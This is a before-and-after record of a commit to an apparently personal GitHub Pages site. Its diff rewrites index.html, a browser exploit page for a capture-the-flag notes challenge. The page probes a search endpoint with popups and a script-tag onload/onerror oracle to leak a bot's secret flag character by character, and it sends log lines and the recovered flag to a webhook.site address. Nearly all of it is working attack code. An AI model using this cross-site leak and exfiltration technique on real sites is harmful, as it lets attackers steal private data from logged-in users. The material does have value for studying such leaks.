

Before and after one commit to bacr67/otocat.github.io, a plain HTML site: page index.html in a window 1280 px wide. Shown: the whole page, without its empty margins (0-1084 px from the left). Drawn offline with Linux system fonts and the light colour scheme; no server answers.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -1,56 +1,65 @@
 <!doctype html>
 <meta charset="utf-8">
-<title>average-contrived-notes-app exploit</title>
+<title>average notes localhost exploit</title>
 <body>
-<pre id="log">bot жду здесь. Этот файл сам себя не репортит.
-Открой хостнутую страницу, потом её URL вставь в поле report url на челлендже.</pre>
+<pre id="log">Жду бота.
+Этот вариант бьёт в http://localhost:3031, а не в публичный домен.
+Оставь страницу открытой не обязательно, результат уйдёт на webhook.</pre>
 <script>
-const SITE = 'https://average-contrived-notes-app.shrimple.de';
-
-// Поменяй на свой webhook / bin / сервер для приёма флага
+const TARGET = 'http://localhost:3031';
 const EXFIL = 'https://webhook.site/8c8d42bd-7c61-4dc8-b8b0-9b439cacf9fe';
-
 const ALPHABET = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789_{}-!@#$%^&*()+=:,./?';
 let prefix = 'RS{';
 
 const logEl = document.getElementById('log');
-function log(s){ logEl.textContent += '\\n' + s; console.log(s); }
+function log(s){
+  logEl.textContent += '\n' + s;
+  console.log(s);
+  try { fetch(EXFIL + '?log=' + encodeURIComponent(s), {mode:'no-cors'}); } catch(e) {}
+}
 function sleep(ms){ return new Promise(r => setTimeout(r, ms)); }
 
-function probe(guess) {
-  return new Promise(async (resolve) => {
-    const nonce = Math.random().toString(36).slice(2);
-    const url = `${SITE}/api/notes?search=${encodeURIComponent(guess)}&x=${nonce}`;
+async function topNav(url) {
+  let w = null;
+  try {
+    w = window.open(url, '_blank', 'popup,width=220,height=120');
+  } catch (e) {}
+  await sleep(2500);
+  try { if (w && !w.closed) w.close(); } catch (e) {}
+}
 
-    // 1. top-level navigation, чтобы Lax-cookie ушла и ответ положился в cache
-    const w = window.open(url, '_blank', 'popup,width=220,height=120');
-    await sleep(1800);
-    try { if (w && !w.closed) w.close(); } catch {}
-
-    // 2. тот же URL как script
-    // пустой ответ => valid empty JS => onload
-    // непустой ответ с флагом => invalid JS => onerror
+function scriptOracle(url) {
+  return new Promise((resolve) => {
     const s = document.createElement('script');
     let done = false;
-
     function finish(v) {
       if (done) return;
       done = true;
       s.remove();
       resolve(v);
     }
-
     s.onload = () => finish(false);
     s.onerror = () => finish(true);
     s.src = url;
     document.body.appendChild(s);
-
-    setTimeout(() => finish(false), 4000);
+    setTimeout(() => finish(false), 5000);
   });
 }
 
+async function probe(guess) {
+  const nonce = Math.random().toString(36).slice(2);
+
+  // сначала top-level navigation с Lax cookie бота
+  const url = `${TARGET}/api/notes?search=${encodeURIComponent(guess)}&x=${nonce}`;
+  await topNav(url);
+
+  // потом тянем тот же URL как script
+  const hit = await scriptOracle(url);
+  return hit;
+}
+
 async function brute() {
-  log('starting with ' + prefix);
+  log('start ' + prefix);
 
   while (!prefix.endsWith('}')) {
     let found = false;
@@ -59,30 +68,35 @@ async function brute() {
       const guess = prefix + ch;
       log('try ' + guess);
 
-      const ok = await probe(guess);
+      // пара попыток на один символ, чтобы сгладить кэш/тайминги
+      let ok = false;
+      for (let i = 0; i < 2; i++) {
+        if (await probe(guess)) {
+          ok = true;
+          break;
+        }
+        await sleep(500);
+      }
+
       if (ok) {
         prefix = guess;
-        log('hit => ' + prefix);
+        log('hit ' + prefix);
         found = true;
         break;
       }
-      await sleep(250);
+      await sleep(300);
     }
 
     if (!found) {
-      log('no next char found, попробуй расширить alphabet или поднять sleep');
+      log('stuck at ' + prefix);
       return;
     }
   }
 
-  log('FLAG = ' + prefix);
-
+  log('FLAG ' + prefix);
   try {
     await fetch(EXFIL + '?flag=' + encodeURIComponent(prefix), { mode: 'no-cors' });
-    log('sent to exfil');
-  } catch (e) {
-    log('exfil failed: ' + e);
-  }
+  } catch (e) {}
 }
 
 brute();
```
